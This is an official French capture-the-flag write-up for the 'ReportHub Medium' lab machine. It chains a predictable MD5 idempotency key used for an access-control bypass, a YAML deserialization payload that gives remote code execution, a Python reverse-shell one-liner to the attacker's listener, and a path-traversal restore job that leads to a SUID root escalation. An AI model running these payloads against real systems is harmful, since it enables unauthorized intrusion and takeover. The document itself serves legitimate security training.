





# Writeup Officiel — ReportHub Medium

**Difficulté :** Medium | **OS :** Linux (Ubuntu 20.04) | **Plateforme visée :** creed-ctf.fr / TryHackMe

> *« Un rapport, une clé prévisible, une restauration héritée : jusqu'où mène la chaîne de confiance ? »*

> ⚠️ **Spoilers :** ce document révèle le parcours complet de résolution. Il est destiné à une utilisation sur la machine CTF ReportHub, dans un laboratoire autorisé. Les valeurs des flags sont volontairement masquées.

---

## Chemin d'exploitation

```text
Reconnaissance HTTP et API
→ Inscription d'un compte standard (token API)
→ Énumération du compte admin (ID 1)
→ Analyse de la clé d'idempotence
→ Requête /generate-custom refusée (403)
→ Prédiction de la clé du rapport administrateur
→ Contournement du contrôle d'accès (200)
→ Désérialisation YAML non sécurisée → RCE (reporthub)
→ Shell reporthub → user.txt (Flag 1)
→ Job d'archivage legacy → archive créée par reportd
→ Job de restauration → traitement du profil de récupération
→ reportctl SUID → session root → root.txt (Flag 2)
```

---

## Récap des flags

| Flag | Étape | Valeur |
|------|-------|--------|
| 🏴 Flag 1 | RCE YAML, accès à l'utilisateur `reporthub` | `FLAG1{Hidden}` |
| 🏴 Flag 2 | Legacy Restore et élévation via `reportctl` | `FLAG2{Hidden}` |

---

## 1. Reconnaissance

### Étape 1 — Identifier les services

Sur Kali, on commence par identifier les ports et les versions des services :

```bash
nmap -sC -sV -p- <IP>
```

La machine de test expose notamment le service **HTTP sur le port 80** et **SSH sur le port 22**. L'application web se présente sous le nom **ReportHub**, un portail de rapports. L'en-tête HTTP observé indique une application Python servie par Werkzeug :

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
```

### Étape 2 — Explorer l'API

La page d'accueil et la documentation applicative, accessible via `/docs`, permettent d'orienter l'analyse vers les fonctionnalités d'inscription et de génération de rapports. Les principales routes utilisées dans ce parcours sont :

```text
POST /api/register
GET  /api/users/1/public
POST /api/reports/generate
POST /api/reports/generate-custom
```

Nous utilisons **Burp Suite Repeater** pour comparer précisément les requêtes et les réponses.

---

## 2. Création d'un compte utilisateur

### Étape 1 — Inscription à l'API

Une inscription standard permet d'obtenir un jeton d'authentification. Dans Burp Suite Repeater :

```http
POST /api/register HTTP/1.1
Host: <IP>
Content-Type: application/json
Accept: application/json

{"username":"alex","password":"password"}
```

**Résultat observé :**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"token":"<TOKEN>","user_id":2}
```



> **Explication :** le compte créé est un **utilisateur standard** (`user_id: 2`). Le champ `token` permet d'authentifier les requêtes suivantes avec l'en-tête `Authorization: Bearer <TOKEN>`. La valeur du jeton est propre à la session de test et ne doit pas être recopiée telle quelle lors d'une autre résolution.

---

## 3. Énumération du compte administrateur

### Étape 1 — Interroger le profil public

```http
GET /api/users/1/public HTTP/1.1
Host: <IP>
Accept: application/json
```

**Résultat observé :**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"username":"admin"}
```



> **Explication :** l'identifiant public `1` correspond au compte **admin**. Cette information paraît anodine, mais elle devient décisive lorsque l'on étudie la manière dont ReportHub dérive certaines clés internes à partir de l'identifiant de l'utilisateur.

---

## 4. Analyse du mécanisme d'idempotence

### Étape 1 — Générer un rapport prédéfini

Le générateur standard attend un champ JSON nommé **`template`**. Nous envoyons une requête authentifiée :

```http
POST /api/reports/generate HTTP/1.1
Host: <IP>
Authorization: Bearer <TOKEN>
Content-Type: application/json
Accept: application/json

{"template":"monthly_sales"}
```

**Résultat observé :**

```http
HTTP/1.1 200 OK
X-Idempotency-Key: 2b470e845cf60a2539a3c0b1e1916463
Content-Type: application/json

{"data":{"month":"2026-10","orders":941,"total_usd":128430},"template":"monthly_sales"}
```



> **Explication :** une clé d'idempotence sert normalement à reconnaître une opération déjà exécutée afin d'éviter de la répéter. Ici, ReportHub renvoie cette clé dans l'en-tête `X-Idempotency-Key`. Son mécanisme de dérivation devient un point d'intérêt pour l'analyse du contrôle d'accès. La valeur affichée correspond à cette exécution, elle n'est pas la clé administrateur utilisée à l'étape suivante.

### Étape 2 — Comprendre la clé prévisible

L'analyse du fonctionnement de ReportHub conduit à la formule suivante pour certaines clés internes :

```python
seed = f"{user_id}:{kind}:{day}"
key = hashlib.md5(seed.encode()).hexdigest()
```

Pour le rapport personnalisé quotidien de l'administrateur, les paramètres sont :

```text
user_id = 1
kind    = custom
day     = date du serveur (YYYY-MM-DD)
```

Il suffit donc de calculer le MD5 de `1:custom:<DATE_DU_SERVEUR>` :

```bash
python3 - <<'PY'
import hashlib

jour = "2026-10-17"  # À adapter à la date du serveur ReportHub
seed = f"1:custom:{jour}"
print(hashlib.md5(seed.encode()).hexdigest())
PY
```

> **Explication :** le problème n'est pas MD5 utilisé comme empreinte de fichier, mais l'emploi d'une **valeur déterministe et prédictible comme élément de décision d'autorisation**. La date doit correspondre à celle du serveur de la machine CTF.

---

## 5. Contournement du contrôle d'accès

### Étape 1 — Vérifier le comportement normal

Sans clé administrateur valide, nous testons le générateur personnalisé avec le token du compte standard :

```http
POST /api/reports/generate-custom HTTP/1.1
Host: <IP>
Authorization: Bearer <TOKEN>
Content-Type: application/json

{"script":"query: test"}
```

**Résultat observé :**

```http
HTTP/1.1 403 FORBIDDEN

{"error":"forbidden"}
```



> **Explication :** le générateur personnalisé doit être réservé à l'administrateur. Le code HTTP **403** confirme que notre compte standard n'y a pas directement accès.

### Étape 2 — Réutiliser la clé du rapport administrateur

Un traitement interne génère périodiquement un rapport personnalisé administrateur et conserve son résultat dans un cache d'idempotence. Le point faible est l'ordre des contrôles : **si une clé correspond à une entrée du cache appartenant à l'administrateur, l'application exécute le rapport personnalisé avant de vérifier le rôle du demandeur**.

Nous injectons donc la clé prévisible calculée précédemment dans l'en-tête `Idempotency-Key` :

```http
POST /api/reports/generate-custom HTTP/1.1
Host: <IP>
Authorization: Bearer <TOKEN>
Idempotency-Key: <CLE_MD5_ADMIN>
Content-Type: application/json
Accept: application/json

{"script":"query: bypass_confirmed"}
```

**Résultat observé :**

```http
HTTP/1.1 200 OK

{"output":"bypass_confirmed"}
```



> **Explication :** nous avons obtenu **200 OK** avec un compte standard là où la même fonctionnalité renvoyait auparavant **403 Forbidden**. Le défaut est une **confusion entre l'identité propriétaire de l'entrée de cache et les privilèges du requérant**. Le rapport administratif doit déjà avoir été créé par le traitement interne pour que la clé corresponde à une entrée du cache.

---

## 6. Exécution de commandes — Désérialisation YAML non sécurisée

### Étape 1 — Examiner le traitement du champ `script`

La fonctionnalité personnalisée interprète le contenu de `script` comme du YAML via un chargeur non sécurisé :

```python
config = yaml.load(script_yaml, Loader=yaml.Loader)
```

Dans cette configuration de l'application CTF, le chargeur accepte des constructions Python capables d'invoquer une fonction. Une fois le contrôle d'accès contourné, cette capacité permet une exécution de commandes au niveau du processus applicatif.

### Étape 2 — Vérifier l'exécution avec `id`

Nous conservons le token utilisateur et la clé administrateur, puis transmettons un objet YAML qui appelle `subprocess.check_output` :

```http
POST /api/reports/generate-custom HTTP/1.1
Host: <IP>
Authorization: Bearer <TOKEN>
Idempotency-Key: <CLE_MD5_ADMIN>
Content-Type: application/json
Accept: application/json

{"script":"!!python/object/apply:subprocess.check_output\n- [id]"}
```

**Résultat observé :**

```http
HTTP/1.1 200 OK

{"output":"uid=1001(reporthub) gid=1001(reporthub) groups=1001(reporthub)\n"}
```


> **Explication :** la commande `id` n'est pas une requête SQL ou une fonctionnalité normale du générateur. Son résultat prouve une **Remote Code Execution (RCE)** dans le contexte de l'utilisateur Linux **`reporthub` (UID 1001)**. L'exploitation repose sur deux faiblesses en chaîne : le contrôle d'accès contourné puis la désérialisation YAML non sécurisée.

---

## 7. Flag 1 — Obtenir un shell `reporthub`

### Étape 1 — Ouvrir un listener sur Kali

Après la preuve d'exécution de `id`, nous pouvons établir un shell de test vers notre machine Kali :

```bash
nc -lvnp 4444
```

### Étape 2 — Déclencher le shell depuis la RCE

Le même mécanisme YAML peut appeler une commande Python pour ouvrir une connexion de retour. Dans Burp, on réutilise le token et la clé administrateur des étapes précédentes, en adaptant l'IP de Kali :

```python
# Exemple de commande à lancer via la RCE de ce laboratoire
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("<KALI_IP>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

> **Note :** cette commande décrit la prise de shell à partir de l'exécution Python déjà démontrée. Elle n'est pas une nouvelle capture Burp. Dans le cadre de ce CTF, le listener et le payload doivent utiliser la même interface réseau et le même port.

### Étape 3 — Lire le premier flag

Une fois la session ouverte sous `reporthub` :

```bash
id
# uid=1001(reporthub) gid=1001(reporthub) groups=1001(reporthub)

cat /home/reporthub/user.txt
```

<details>
<summary>🏴 Afficher le Flag 1</summary>

`FLAG1{Hidden}`

</details>

---

## 8. Reconnaissance locale — Le moteur de maintenance `reportd`

### Étape 1 — Découvrir les jobs et les fichiers exécutables

L'énumération locale met en évidence le moteur de maintenance ReportHub :

```bash
ls -ld /var/lib/reporthub/jobs
ls -l /opt/reportd/bin/reportctl
systemctl list-timers reportd.timer
```

**Éléments validés dans le laboratoire :**

```text
/var/lib/reporthub/jobs       accessible en écriture à reporthub
/opt/reportd/bin/reportctl    root:reporthub, mode 750 au repos
reportd.timer                 déclenche un traitement périodique sous root
```

Un utilisateur non privilégié peut déposer des fichiers JSON dans le répertoire des jobs, tandis qu'un service privilégié les interprète.

> **Explication :** ce modèle n'est pas forcément vulnérable en soi. Le risque apparaît lorsque le moteur root accepte des paramètres de restauration qui permettent de sortir d'un chemin prévu, puis de relancer une opération de récupération avec davantage de privilèges.

---

## 9. Flag 2 — Legacy Restore et élévation des privilèges

### Étape 1 — Créer un job d'archivage legacy

Depuis le shell `reporthub`, nous déposons un job de maintenance :

```bash
cat > /var/lib/reporthub/jobs/maintenance.json <<'EOF_JOB'
{
  "operation": "archive",
  "report_type": "monthly_sales",
  "archive_name": "legacy_retention_2026",
  "engine": "reportd-legacy",
  "maintenance_action": "rotate",
  "recovery_profile": "legacy"
}
EOF_JOB
```

Le timer `reportd.timer` traite ensuite le job sous `root` et crée l'archive :

```text
/var/lib/reporthub/archives/legacy_retention_2026.tar.gz
```

Lors des tests, cette archive était créée avec le propriétaire **root:root** et contenait le fichier de maintenance.

### Étape 2 — Déposer un job de restauration

Nous soumettons ensuite un second fichier JSON :

```bash
cat > /var/lib/reporthub/jobs/restore.json <<'EOF_JOB'
{
  "operation": "restore",
  "archive_name": "legacy_retention_2026",
  "restore_target": "../restored-backup"
}
EOF_JOB
```

> **Explication :** la valeur `../restored-backup` exploite une validation insuffisante du chemin de destination. Un contrôle fondé sur un simple préfixe de chaîne ne suffit pas à garantir que le chemin final reste à l'intérieur du répertoire `restored`. La destination choisie permet au traitement de restauration de réintroduire le job de maintenance dans le flux privilégié.

### Étape 3 — Attendre le traitement automatique

Le service est déclenché par `reportd.timer`. Après un cycle, nous vérifions le binaire de récupération :

```bash
stat -c '%a %U:%G %n' /opt/reportd/bin/reportctl
```

**Résultat observé après la chaîne de jobs :**

```text
4750 root:reporthub /opt/reportd/bin/reportctl
```

> **Explication :** le binaire `reportctl`, initialement en mode `750`, reçoit le bit **SUID** après le traitement du profil de récupération `legacy`. Son propriétaire restant `root`, une commande exécutée via ce binaire peut fonctionner avec l'identité effective de root. Le moteur peut nettoyer le répertoire temporaire de restauration après son traitement : l'absence de fichiers à cet endroit ne suffit donc pas à conclure à l'échec de la chaîne.

### Étape 4 — Récupérer une session privilégiée

Depuis le shell **non privilégié** `reporthub` :

```bash
/opt/reportd/bin/reportctl --recover-session
id
```

**Résultat observé lors du test :**

```text
uid=0(root) gid=1001(reporthub) groups=1001(reporthub)
```

Nous pouvons alors lire le flag root :

```bash
cat /root/root.txt
```

<details>
<summary>🏴 Afficher le Flag 2</summary>

`FLAG2{Hidden}`

</details>

---

## 10. Persistance de l'état du challenge et remise à zéro

ReportHub comprend un service de maintenance au démarrage destiné à remettre la machine dans un état rejouable. Lors des tests, après redémarrage :

```text
reporthub-reset.service     status=0/SUCCESS
reportctl                   750 root:reporthub
jobs / archives / restored  nettoyés
Application HTTP            200 OK
reportd.timer               actif
```

Cette remise à zéro permet de repartir du début du parcours sur une nouvelle session. Les valeurs réelles des flags ne sont pas incluses dans ce writeup public.

---

## 11. Conclusion

La progression de **ReportHub Medium** est construite autour d'une chaîne de vulnérabilités interdépendantes :

1. **Exposition d'informations utiles** via l'API publique et découverte de l'identifiant administrateur.
2. **Clé d'idempotence prédictible** et confusion entre possession d'une entrée de cache et autorisation réelle.
3. **Désérialisation YAML non sécurisée**, permettant une RCE sous l'utilisateur `reporthub`.
4. **Restauration de maintenance insuffisamment cloisonnée**, conduisant à la modification des permissions d'un outil privilégié.
5. **Exploitation d'un binaire SUID root**, pour obtenir le contrôle final du système.

La leçon principale : **une valeur prévisible ne doit jamais remplacer une vérification d'autorisation, et un service privilégié ne doit jamais interpréter des chemins ou des jobs non fiables sans validation rigoureuse**.

---

*creed-ctf.fr — Writeup Officiel ReportHub Medium*
